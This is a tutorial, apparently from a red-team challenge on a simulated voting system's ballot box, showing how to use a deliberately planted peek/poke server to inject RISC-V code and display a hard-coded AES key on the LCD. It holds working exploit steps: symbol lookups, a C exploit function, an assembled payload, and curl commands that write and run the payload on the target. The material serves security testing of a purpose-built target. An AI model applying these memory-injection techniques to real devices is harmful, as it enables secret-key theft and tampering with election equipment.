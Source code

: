 This is the simplest example of how to use the peek-poke server. This exploit walks through how to write the ballot box LCD display value to be the location of the AES key.

## Examine the SBB source code & use objdump

Looking at the `fetch_keys` function in the [SBB source code](../../source/crypto/crypto.c#L39), you see the comment:

```
   // we simply return addresses of the hard-coded keys that were linked
    // in at compile time, with the mock key returned in any situation
    // where one of the 3 "real" keys is not asked for
```

Let's go find that hard-coded location. In this example, you'll just look for the mock key. 

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "mock_key"
c0082178 l     O .rodata	00000020 mock_key
```

The first field, `c0082178` is the mock_key's memory location. (If this address is different in the output on your system, the source code has probably been updated since this document was written and you'll have to use your value to follow along with the rest of this example.)

For this example, let's get the mock_key to be displayed on the SBB's LCD display. The LCD display currently reads "Welcome, Voter!", so let's first find that string [in the source code](../../source/sbb/sbb_strings.c#L10):

```
const char *welcome_text = "Welcome, Voter!";
```

Great, now let's find the location of the `welcome_text` symbol in the ELF file:

```
[nix-shell:~/voting-system]$ riscv32-unknown-elf-objdump -t default_ballot_box_sim.elf | grep "welcome_text"
c0088258 g     O .sdata	00000004 welcome_text
```

You can see the welcome_text is at `0xc0088258`. 

Now let's write the address of mock_key to the welcome_text location. 

## Create RISC-V 32 bit assembly

You need the RISC-V 32 bit assembly that corresponds to writing the address of the mock_key to the welcome_text location; one tool that provides a helpful interface for doing this is using the online [godbolt compiler explorer.](https://godbolt.org/z/0vfCJw) There may be situations where it will be better to write a small amount of assembly by hand, but here it's easiest to use the compiler.

Let's write a C function that does what you want:

```
void exploit() {
    // get a pointer to the welcome_text
    int *x = (int *)0xc0088258;
    // write the address of the mock_key
    *x = 0xc0082178;
}
```

You can see the generated RISC-V 32 bit assembly in the pane to the right, and pick out the parts that aren't part of the function call setup / tear-down. Be careful as the highlighting on godbolt doesn't always correspond directly to the source code! 

The assembly you want is everything between the stack pointer (`sp`) manipulations:

```
lui a0, 786568
addi a0, a0, 600
sw a0, -12(s0)
lw a0, -12(s0)
lui a1, 786562
addi a1, a1, 376
sw a1, 0(a0)
```

Next, let's save this into a file called `payload.asm`, and get the binary (hex) representation of these instructions. You can then "load" this binary by writing it to the `malware()` function using the peek/poke server, and execute it by running `malware()`. 

## Craft our binary

To craft your desired binary, you need to invoke the RISC-V 32 bit assembler, and grab only the parts of the resulting ELF file that correspond to those instructions. The provided [`run_exploit.sh` script](../run_exploit.sh) will do this for you. 

Let's look at the contents of that script, and then below look at how to use it.

_You don't need to run the code in this section to follow along; it is easier to run the provided `run_exploit.sh` script, as is explained in the next section. Knowing these steps will be useful for other exploits._

The script first calls the assembler:
```
prefix=riscv32-unknown-elf-
tempDir=$(mktemp -d)
...
${prefix}as -o "$tempDir/exploit.elf" "$1"
```

to create an assembled ELF file, and then grab only the `.text` section to get the binary corresponding to your function body while avoiding all the other ELF formatting:

```
${prefix}objcopy -O binary --only-section=.text "$tempDir/exploit.elf" "$tempDir/payload.bin"
```

To `poke` the memory into the `malware()` function, you need to specify how many bytes to write; you can find the size of our binary using `du`:

```
size=$(du -b "$tempDir/payload.bin" | cut -f 1)
```

Finally, you need to call the peek/poke server twice: first to poke our binary into the body of the malware function, and again to run the malware function:

```
curl -v --data-binary @"$tempDir/payload.bin" --request PATCH http://$SBB_IP/poke/$malStartAddr/$size
curl -v http://$SBB_IP/run/0
```

## ./run_exploit.sh

To run `run_exploit.sh` you first need to set two environment variables.

The first is the IP address of the peek/poke server, which you can find published in the Voting Village.

The other is the address to which you want to write your binary payload in the malware function; one easy way to find where to write to is to look at the binary with `riscv32-unknown-elf-objdump -d`.

You should be able to find the `malware` function in the output of `objdump`. 
One complication is that the peek-poke server will only let you write 512 bytes past the beginning on the malware function. (See [here](https://gitlab-ext.galois.com/ssith/voting-system/blob/master/source/protocols/HTTP/peekpoke.c#L63))

So, you can grab the address where the `nop`s start, and add 0x200 to that address, since 512 = 0x200.  For example:

```
c001d170 <malware>:
c001d170:       fe010113                addi    sp,sp,-32
c001d174:       00812e23                sw      s0,28(sp)
c001d178:       02010413                addi    s0,sp,32
c001d17c:       fea42623                sw      a0,-20(s0)
c001d180:       feb42423                sw      a1,-24(s0)
c001d184:       00000013                nop
c001d188:       00000013                nop
c001d18c:       00000013                nop
...
```

Adding on the offset mandate by the server:
```
0xc001d184 + 0x200 = 0xc001d384
```

Set the values you've found as `SBB_IP` and `malware_start_addr`:

```
# don't copy this code directly, find them for your environment as described above
export SBB_IP=192.168.55.247
export malware_start_addr='0xc001d384'
```

Once you've set those two environment variables, you can run the script:

```
./run_exploit.sh payload.asm
```

This will create the binary corresponding to our assembly instructions, copy that binary into the `malware()` function, and execute it.

## Recap

This example demonstrated how to find the (static) location of the AES key, and expose it by writing to a location which was displayed on the LCD display. To do this you:

* found the interesting pieces of data by inspecting the source code
* found their memory locations by searching the symbol table with `objdump`
* wrote a C function which rewrote data in the SBB code
* compiled it using a RISC-V 32 bit compiler
* ran `./run_exploit.sh` with our assembly as a payload. This:
    * created binary corresponding to the interesting part of the assembly using an assembler & objcopy
    * wrote our crafted binary to the malware function using the poke server
    * executed using malware function, which overwrote the memory using our binary code, by requesting that the server `run` the malware function

